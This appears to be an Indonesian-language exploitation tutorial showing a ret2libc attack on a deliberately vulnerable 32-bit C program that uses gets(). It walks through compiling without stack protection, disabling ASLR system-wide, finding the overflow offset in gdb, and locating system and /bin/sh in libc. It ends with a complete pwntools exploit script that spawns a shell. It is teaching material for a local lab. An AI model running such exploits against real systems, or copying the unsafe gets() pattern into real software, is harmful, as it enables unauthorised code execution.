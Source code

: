[x] NO Canary ~ -fno-stack-protector
[x] NO PIE ~ -no-pie
[x] NX ~ tanpa -z execstack
[x] NO ASLR ~ echo 0 > /proc/sys/kernel/randomize_va_space

vuln_program.c

```c
#include<stdio.h>

void foo()
{
    char buffer[40];
    puts("give me your input :)\n");
    gets(buffer);
}

void main()
{
    foo();
}
```

kita kompile dengan cara seperti ini untuk supaya tidak ada perlindungan Canary dan PIE

```bash
gcc -g -m32 -fno-stack-protector -no-pie -o vuln32 vuln_program.c
```

setting disable untuk perlindungan ASLR pada sistem operasi linux

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

jalankan program vuln32 dengan gdb kemudian lakukan checksec

```bash
$gdb -q vuln32
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

```bash
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /root/You_Tube/Stack_Buffer_Overflow/3/vuln32 
give me your input :)  

AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xffffd638 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EBX: 0x41414641 ('AFAA')
ECX: 0xf7fb55c0 --> 0xfbad2288 
EDX: 0xf7fb689c --> 0x0 
ESI: 0xf7fb5000 --> 0x1d9d6c 
EDI: 0xf7fb5000 --> 0x1d9d6c 
EBP: 0x31414162 ('bAA1')
ESP: 0xffffd670 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
EIP: 0x41474141 ('AAGA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41474141
[------------------------------------stack-------------------------------------]
0000| 0xffffd670 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0004| 0xffffd674 ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd678 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0012| 0xffffd67c ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0016| 0xffffd680 ("IAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0020| 0xffffd684 ("AA4AAJAAfAA5AAKAAgAA6AAL")
0024| 0xffffd688 ("AJAAfAA5AAKAAgAA6AAL")
0028| 0xffffd68c ("fAA5AAKAAgAA6AAL")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41474141 in ?? ()
gdb-peda$ pattern offset 0x41474141
1095188801 found at offset: 52
```

perintahnya menggunakan ldd vuln32

```bash
$ldd vuln32
linux-gate.so.1 (0xf7fd2000)
libc.so.6 => /lib32/libc.so.6 (0xf7ddb000)
/lib/ld-linux.so.2 (0xf7fd4000)
```
ketemu 0xf7ddb000

mencari alamat system dengan perintah readelf, cari alamat system@@GLIBC_2.0

```bash
$readelf -s /lib32/libc.so.6|grep system
   257: 00129d40   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   658: 0003e9e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1525: 0003e9e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

ketemu 0003e9e0 ditulis 0x3e9e0

mencari alamat /bin/sh dengan perintah strings

```bash
$strings -a -t x /lib32/libc.so.6 | grep /bin/sh
 17eaaa /bin/sh
```

ketemu 17eaaa ditulis 0x17eaaa

```python
#ldd vuln32
#libc.so.6 => /lib32/libc.so.6 -> 0xf7ddb000
#readelf -s /lib32/libc.so.6|grep system  -> 0x3e9e0
#strings -a -t x /lib32/libc.so.6 |grep /bin/sh -> 0x17eaaa
  
from pwn import *
p=process('./vuln32')
print(p.recv())

base_libc = 0xf7ddb000
padding = b'A'*52
system = p32(base_libc+0x3e9e0)
ret = p32(0x0)
binsh = p32(base_libc+0x17eaaa)

p.sendline(padding+system+ret+binsh)
print(p.clean())
p.interactive()
```

```bash
$python3 exploit-nx.py 
[+] Starting local process './vuln32': pid 12069
b'give me your input :)\n'
b'\n'
[*] Switching to interactive mode
$
```
